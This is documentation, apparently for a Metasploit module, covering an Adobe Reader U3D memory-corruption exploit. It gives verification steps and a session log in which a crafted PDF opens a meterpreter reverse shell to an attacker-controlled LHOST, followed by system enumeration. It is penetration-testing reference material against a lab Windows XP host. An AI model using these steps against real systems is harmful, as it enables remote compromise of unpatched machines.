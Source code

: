 ## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader.
The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially
crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory
used by the invalid pointer issue is controlled.

Link to vulnerable software [OldVersion](http://www.oldversion.com/windows/download/acrobat-reader-9-4-0)

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: ```use exploit/windows/fileformat/adobe_reader_u3d```
   4. Do: ```set payload [windows/meterpreter/reverse_tcp]```
   5. Do: ```set LHOST [IP]```
   6. Do: ```exploit```
   7. Do: ```use [exploit/multi/handler```
   8. Do: ```set LHOST [IP]```
   9. Do: ```exploit```
   10. Do: Open PDF on target machine with vulnerable software

## Options

### FILENAME

  The file name.

### OBFUSCATE

  Enable JavaScript obfuscation

## Scenarios

### Adobe Reader 9.4.0 on Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```
